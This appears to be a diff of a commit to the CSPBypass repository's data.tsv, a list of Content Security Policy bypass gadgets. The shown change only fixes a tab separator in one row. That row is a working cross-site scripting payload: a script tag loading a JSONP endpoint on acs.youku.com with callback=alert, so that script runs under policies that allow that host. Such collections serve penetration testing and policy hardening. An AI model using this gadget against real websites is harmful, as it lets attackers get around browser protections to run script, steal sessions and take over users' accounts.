

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
tabs fixed hopefully

```diff
--- a/data.tsv
+++ b/data.tsv
-row 7: acs.youku.com <script src="https://acs.youku.com/h5/mtop.youku.playlog.open.get/1.0/?jsv=2.6.1&appKey=24679788&t=1734359327631&sign=6b8f8b6abb27c68582606eed336c887d&api=mtop.youku.playlog.open.get&v=1.0&dataType=jsonp&jsonpIncPrefix=headerRecord1734359327618&type=jsonp&callback=alert&data={%22nlid%22%3A%22XlQcF5xQrCcCAWoLKdGqIOhS%22%2C%22uid%22%3A%22%22%2C%22pageLength%22%3A100%2C%22timestamp%22%3A%221734359327617%22%2C%22appKey%22%3A%22qPbb2hfIYugHjMaj%22%2C%22appName%22%3A%22pc%22%2C%22hwClass%22%3A1%2C%22deviceName%22%3A%22web%22%2C%22isPlayController%22%3A1%2C%22ccode%22%3A%220502%22%2C%22clientDrmAbility%22%3A3}"></script>
+row 7: acs.youku.com | <script src="https://acs.youku.com/h5/mtop.youku.playlog.open.get/1.0/?jsv=2.6.1&appKey=24679788&t=1734359327631&sign=6b8f8b6abb27c68582606eed336c887d&api=mtop.youku.playlog.open.get&v=1.0&dataType=jsonp&jsonpIncPrefix=headerRecord1734359327618&type=jsonp&callback=alert&data={%22nlid%22%3A%22XlQcF5xQrCcCAWoLKdGqIOhS%22%2C%22uid%22%3A%22%22%2C%22pageLength%22%3A100%2C%22timestamp%22%3A%221734359327617%22%2C%22appKey%22%3A%22qPbb2hfIYugHjMaj%22%2C%22appName%22%3A%22pc%22%2C%22hwClass%22%3A1%2C%22deviceName%22%3A%22web%22%2C%22isPlayController%22%3A1%2C%22ccode%22%3A%220502%22%2C%22clientDrmAbility%22%3A3}"></script>
```
Also changed, not shown: 5 added rows and 5 removed rows elsewhere in this file.
